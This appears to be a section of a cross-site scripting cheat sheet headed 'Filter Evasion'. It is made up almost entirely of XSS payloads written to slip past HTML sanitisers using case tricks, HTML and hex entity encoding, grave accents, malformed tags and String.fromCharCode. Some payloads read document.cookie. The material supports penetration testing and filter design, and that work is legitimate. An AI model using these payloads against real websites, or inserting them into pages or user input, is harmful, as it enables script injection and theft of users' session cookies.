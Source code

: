 
## Filter Evasion

### No quotes and no semicolon

```
<IMG SRC=javascript:alert('XSS')>
```

### Case Insensitive

```
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

### HTML Entity

```
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```

### Grave Accent Obfuscation

```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

### Malformed Tags

```
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>

\<a onmouseover=alert(document.cookie)\>xxs link\</a\>

<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

### From Char Code

```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```

### Encoded

```
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>

<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

<IMG SRC="jav&#x09;ascript:alert('XSS');">

<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
